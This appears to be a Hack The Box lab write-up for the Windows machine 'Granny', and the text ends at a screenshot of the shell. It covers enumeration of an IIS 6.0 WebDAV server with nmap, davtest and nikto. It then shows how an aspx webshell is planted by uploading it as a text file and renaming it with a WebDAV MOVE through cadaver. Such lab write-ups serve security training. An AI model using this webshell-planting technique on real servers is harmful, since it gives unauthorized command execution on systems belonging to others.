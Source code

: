 # HTB - Granny
## OS - Windows 

I want to do this box without using Metasploit, so let's see how it goes!

I started with an nmap scan of Granny whose IP address is 10.10.10.15.

```
$nmap -sC -sV -oN granny.nmap 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-26 15:27 PST
Nmap scan report for 10.10.10.15
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Sat, 26 Dec 2020 23:31:09 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.45 seconds

```

This is very similar to Grandpa box, so I ran davtest scan like Grandpa.

```
$davtest -url 10.10.10.15
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		10.10.10.15
********************************************************
NOTE	Random string for this session: FTVFUmrC1gdYm
********************************************************
 Creating directory
MKCOL		FAIL
********************************************************
 Sending test files
PUT	pl	FAIL
PUT	jsp	FAIL
PUT	aspx	FAIL
PUT	cgi	FAIL
PUT	html	FAIL
PUT	txt	FAIL
PUT	jhtml	FAIL
PUT	php	FAIL
PUT	cfm	FAIL
PUT	shtml	FAIL
PUT	asp	FAIL

********************************************************
/usr/bin/davtest Summary:

```

I ran Nikto scan and Dirbuster too. Dirbuster showed images folder but it was empty.
```
$nikto -host http://10.10.10.15
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.15
+ Target Hostname:    10.10.10.15
+ Target Port:        80
+ Start Time:         2020-12-26 15:30:36 (GMT-8)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET

```
The "x-powered-by header: ASP.NET" shows that aspx files may execute on the server. 

I tried to upload an aspx file, but it did not work. Text files worked, but not aspx.

```
curl -X PUT http://10.10.10.15/boxy.txt -d @boxy.txt

└──╼ $curl http://10.10.10.15/boxy.txt
Boxing day!

└──╼ $curl -X PUT http://10.10.10.15/boxy.aspx -d @boxy.txt
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>The page cannot be displayed</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=Windows-1252">
<STYLE type="text/css">
  BODY { font: 8pt/12pt verdana }
  H1 { font: 13pt/15pt verdana }
  H2 { font: 8pt/12pt verdana }
  A:link { color: red }
  A:visited { color: maroon }
</STYLE>
</HEAD><BODY><TABLE width=500 border=0 cellspacing=10><TR><TD>

<h1>The page cannot be displayed</h1>
You have attempted to execute a CGI, ISAPI, or other executable program from a directory that does not allow programs to be executed.
<hr>
<p>Please try the following:</p>
<ul>
<li>Contact the Web site administrator if you believe this directory should allow execute access.</li>
</ul>
<h2>HTTP Error 403.1 - Forbidden: Execute access is denied.<br>Internet Information Services (IIS)</h2>
<hr>
<p>Technical Information (for support personnel)</p>
<ul>
<li>Go to <a href="http://go.microsoft.com/fwlink/?linkid=8180">Microsoft Product Support Services</a> and perform a title search for the words <b>HTTP</b> and <b>403</b>.</li>
<li>Open <b>IIS Help</b>, which is accessible in IIS Manager (inetmgr),
 and search for topics titled <b>Configuring ISAPI Extensions</b>, <b>Configuring CGI Applications</b>, <b>Securing Your Site with Web Site Permissions</b>, and <b>About Custom Error Messages</b>.</li>
<li>In the IIS Software Development Kit (SDK) or at the <a href="http://go.microsoft.com/fwlink/?LinkId=8181">MSDN Online Library</a>, search for topics titled <b>Developing ISAPI Extensions</b>, <b>ISAPI and CGI</b>, and <b>Debugging ISAPI Extensions and Filters</b>.</li>
</ul>

</TD></TR></TABLE></BODY></HTML>


```

Learned about a tool called cadaver that's a CLI for webdav on Unix. Also, there are webshells in Parrot in /usr/share/webshells. I am using the aspx one from that folder.

I'll try with cadaver and curl to copy the aspx shell. We can't PUT an aspx file directly due to restricted permissions. But the server allows MOVE webdav method, so we can PUT a text file and then MOVE it to aspx.

With cadaver:
```
$cadaver http://10.10.10.15
dav:/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/> put cmdasp.txt
Uploading cmdasp.txt to `/cmdasp.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> move cmdasp.txt Destination:http://10.10.10.15/cmdasp.aspx
Moving `/cmdasp.txt' to `/Destination%3ahttp%3a//10.10.10.15/cmdasp.aspx':  failed:
404 Resource Not Found
dav:/> move cmdasp.txt http://10.10.10.15/cmdasp.aspx
Moving `/cmdasp.txt' to `/http%3a//10.10.10.15/cmdasp.aspx':  failed:
404 Resource Not Found
dav:/> move cmdasp.txt cmdasp.aspx
Moving `/cmdasp.txt' to `/cmdasp.aspx':  succeeded.
dav:/> 

```
We can do the same thing with curl too. Once that file is changed to aspx, visiting the web page shows a field to enter a command. 

![Granny ASP Shell](/Granny1.png)



